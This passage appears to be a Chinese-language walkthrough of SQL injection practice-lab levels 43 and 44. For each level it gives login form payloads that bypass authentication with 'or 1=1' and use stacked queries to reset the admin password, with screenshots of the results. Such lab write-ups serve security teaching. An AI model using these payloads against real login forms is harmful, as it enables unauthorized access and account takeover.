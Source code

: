 ![image-20220924100621553](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924100621553.png)

```
login_user=admin&login_password=';update users set password=1234 where username='admin'-- &mysubmit=Login
```

尝试使用密码1234进行登录

![image-20220924102443733](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924102443733.png)

## 第四十三关

```
login_user=admin
&login_password=aa') or 1=1-- '
&mysubmit=Login
```

登录成功

![image-20220924103009504](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924103009504.png)

```
login_user=admin
&login_password=aa') or 1=2;update users set password=987 where username='admin'-- '
&mysubmit=Login
```

尝试使用密码987进行登录

![image-20220924103230039](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924103230039.png)

## 第四十四关

尝试

```
login_user=admin
&login_password='or 1=1-- 
&mysubmit=Login
```

![image-20220924103600824](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924103600824.png)

```
login_user=admin
&login_password='or 1=2;update users set password='qwe' where username='admin'-- 
&mysubmit=Login
```

尝试使用密码qwe进行登录

![image-20220924103719327](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924103719327.png)

